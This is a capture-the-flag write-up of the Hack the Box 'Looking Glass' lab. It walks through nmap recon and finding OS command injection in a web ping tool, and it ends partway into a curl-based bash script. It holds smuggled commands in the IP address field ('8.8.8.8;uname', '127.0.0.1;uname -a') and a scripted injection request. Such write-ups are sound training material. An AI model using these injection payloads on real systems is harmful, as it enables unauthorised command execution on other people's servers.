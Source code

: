 # Looking Glass write-up by Herman Detwiler

## Overview

Looking glass is an easy box on Hack the Box, and can be found on the OWASP top 10 track. We are given the following description: 

*We've built the most secure networking tool in the market, come and check it out!*

The first step is going to be to gather as much information about the target as possible.

## Recon

Given that we are given a docker address to looking glass: 161.35.47.235:30278 first I will run an nmap scan of the target to attempt and enumerate service and underlying OS information about the target. To do this I use the following nmap command to enumerate serverice version, run basic nse scripts, and to attempt OS detection:

```bash
sudo nmap -sC -sV -O 161.35.47.235 -p 30278
```

However initially the host seems down because the host is blocking ping attempts. To counter this we can add the -Pn flag to our nmap command.

```bash
└─$ sudo nmap -sC -sV 161.35.47.235 -p 30278 -Pn -O
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 10:57 EDT
Nmap scan report for 161.35.47.235
Host is up (0.086s latency).

PORT      STATE SERVICE VERSION
30278/tcp open  http    nginx
|_http-title: rce
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), HP P2000 G3 NAS device (92%), ASUS RT-N56U WAP (Linux 3.4) (91%), Linux 3.16 (91%), Linux 2.6.32 (91%), Linux 2.6.39 - 3.2 (91%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (91%), Linux 3.1 - 3.2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 10 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.28 seconds
```
Based on these findings, I can be fairly certain that this is a linux box, running an nginx web server. My next step is to further enumerate this service using various commands to try and see if I can get an idea of the functionality of this web server.

## Enumeration

Using my web browser to manually view the webapp I can see that it is desiegned to perform two different network tests, traceroute and ping. It also displays my actual ip address, which has been redacted on the screenshots.

![image](https://user-images.githubusercontent.com/83407557/161574988-faf3c1c6-6625-47cf-ad47-70933d97f7e2.png)

After manually messing around with functionality I can determine that the webapp is not connected to the internet, as any attempt to ping myself or any other internet facing ip address is met with 100% packet loss:

Just as example trying to ping example.com:

1. Getting ipv4 address of example.com from kali

![image](https://user-images.githubusercontent.com/83407557/161576640-71832a69-3d2b-433a-8a6f-9b9861a832c4.png)

2. Pinging that ipv4 from kali (to show what a box that is connected looks like)

![image](https://user-images.githubusercontent.com/83407557/161576870-f0d9be61-1f61-47ca-9559-4f86f2d11160.png)

3. Doing the same from looking glass to verify 100% packet loss

![image](https://user-images.githubusercontent.com/83407557/161577155-cc56b1ba-a248-4590-b651-ded46cbdbd26.png)

## Building an exploit

Seeing as that the server seems to be running system commands, I need to see if I can break out of the intended ping or traceroute commands and run my own.

### POC

Again using kali to show what I am attempting to do, I need to write a one liner that will both ping and then also run another command. I will us the uname command in linux to try and identify the underlying OS. When run by itself it looks like this:


![image](https://user-images.githubusercontent.com/83407557/161585460-b734416a-3681-4622-9c93-08943276940b.png)

I can also tell that the server is not just running ping by itself, as it always returns four packets. So even though it just says "ping" the actual command is going to be closer to "ping -c4 -w3" so that is what I am going to use locally to get the output as close to the server's as I can. To make bash run another command after the first I can use a semicolon ";". With this in-mind the entire command to ping 8.8.8.8 four times and then run the uname command on kali:

```bash
ping -c4 -w3 8.8.8.8;uname
```
![image](https://user-images.githubusercontent.com/83407557/161586497-8b21c91b-7ee8-4b8a-99b1-678d2e982dcf.png)

As you can see after running the ping command, at the very end of the output it also says "Linux". Now I can see if I can get the same output on looking glass, by adding a semicolon and the uname command to the ip address just as above:

```
8.8.8.8;uname
```

![image](https://user-images.githubusercontent.com/83407557/161587002-cc215b51-2688-4759-91e6-178e85fb4a2e.png)

Even though the ping command returned 100% packet loss, it can be seen the that uname command returned as well. However before I build this into a working exploit, I want to make it a little faster. Each time looking glass trys to ping it takes serveral seconds, which will add up if I am trying to run commands. To counter this, I will try my next manual command against localhost(127.0.0.1) to see if it speeds up the ping command. I want to get all of the OS info using the uname -a command. Using the same method as before:

```
127.0.0.1;uname -a
```

![image](https://user-images.githubusercontent.com/83407557/161587809-785d43cd-71f2-429c-a370-4bd454fe6a1b.png)

and Bingo! was able to get it to work marginally faster and also now know the kernel info. With this I can build my actual exploit.

### Making a bash script

Taking a look at the post request that was sent to the server to perform the ping command, I can copy this as a curl request to begin building a bash script for myself. I will call this initial script tinker.sh.

```bash
#!/bin/bash

curl 'http://178.128.163.152:32305/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://178.128.163.152:32305/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.163.152:32305' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw 'test=ping&ip_address=127.0.0.1%3Buname&submit=Test'

```

